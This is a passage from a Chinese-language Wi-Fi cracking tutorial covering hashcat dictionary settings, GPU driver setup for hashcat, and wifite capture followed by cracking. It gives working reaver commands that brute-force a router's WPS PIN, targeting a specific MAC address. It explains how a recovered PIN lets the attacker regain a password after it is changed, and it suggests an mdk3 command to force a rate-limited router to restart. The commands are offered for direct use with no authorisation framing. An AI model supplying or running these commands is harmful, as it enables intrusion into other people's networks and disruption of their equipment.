 3） Segment size 字典缓存大小

该参数是设置内存缓存的大小，作用是将字典放入内存缓存以加快字典破解速度，默认为 32MB，可以根据自身内存情况进行设置，当然是越大越块了。
```
--segment-size 512 可以提高大字典破解的速度。
```


### 掌法四：wifite 自动抓包输出 + hashcat 破解（Windows）

**（推荐此方法）**


### 掌法五：wifite 自动抓包输出 + hashcat 破解（Linux GPU）

linux安装GPU驱动，有点危险，弄不好就会翻车。
> [https://www.kali.org/docs/general-use/install-nvidia-drivers-on-kali-linux/](https://www.kali.org/docs/general-use/install-nvidia-drivers-on-kali-linux/)

但是我们可以直接安装 **CUDA toolkit**

```
apt install -y ocl-icd-libopencl1 nvidia-driver nvidia-cuda-toolkit
```

一键安装，绝不翻车。安装好了过后，重启一下。

`nvidia-smi`

`hashcat -I`

即可查看GPU信息

`hashcat -b`

进行算法测试，可以查看自己GPU的跑包的速度


### 掌法六：wifite 自动抓包输出 + reaver 破解（开启了WPS）

```
reaver -i wlan0mon -b D8:15:0D:D6:13:92 -S -d9 -t9 -vv
```

破解完成之后，查看并记录下 PIN 码和密码

获取到 PIN 码 后，以后即便路由器更换了密码，我们也可以很迅速地通过 PIN 码重新获得新密码。举例：

```
 reaver  -i  wlan0mon -b  xx:xx:xx:xx:xx:xx  -p 12345670
```

【注意事项】（此处转载于[https://blog.csdn.net/Qidi_Huang/article/details/63698574](https://blog.csdn.net/Qidi_Huang/article/details/63698574)）

（1）如果在执行 reaver 命令后看到有 WARNING: Failed to associate with xx:xx:xx:xx:xx:xx 这样的提示信息，那么应该是你选择了一个不具备或关闭了 WPS 功能的路由器。这种情况下就执行wash 命令并重新选择一个路由器吧。

（2）如果在执行 reaver 命令后看到有 warning detected ap rate limiting waiting 60 seconds before re-checking 这样的提示信息，这表示目标路由器开启了防 PIN破解 功能。因为我们是穷举 PIN码 进行破解的，当连续使用超过某个次数的 PIN码 后，路由器会暂时锁定 WPS 功能一段时间。这种情况下要么我们耐心等待其恢复 WPS 功能，要么执行 mdk3 wlan0mon a -a xx:xx:xx:xx:xx:xx （这是上面的目标AP的MAC地址）命令让路由器主动重启或被动重启以恢复 WPS 功能。


